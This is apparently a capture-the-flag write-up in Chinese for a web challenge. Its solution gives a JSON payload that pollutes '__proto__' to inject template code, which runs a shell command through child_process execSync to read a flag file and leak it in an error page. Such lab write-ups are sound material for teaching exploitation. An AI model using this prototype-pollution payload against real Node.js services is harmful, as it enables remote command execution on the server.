

# 题目描述

Do you have an opinion? Yeah, everyone on the internet has one...

# 解决方案

打开网站发现一个上传内容的接口，路径为/tweet，数据格式为json，如{"content": "test"}，使用如下payload：

```
{
  "content": "A",
  "__proto__": {
    "block": {
      "type": "Text",
      "line": "process.mainModule.require('child_process').execSync(`cat $(cat /home/user/flag.txt)`)"
    }
  }
}
```

然后随便打开一个不存在的路径，报错信息中就会包含flag，如下图所示：

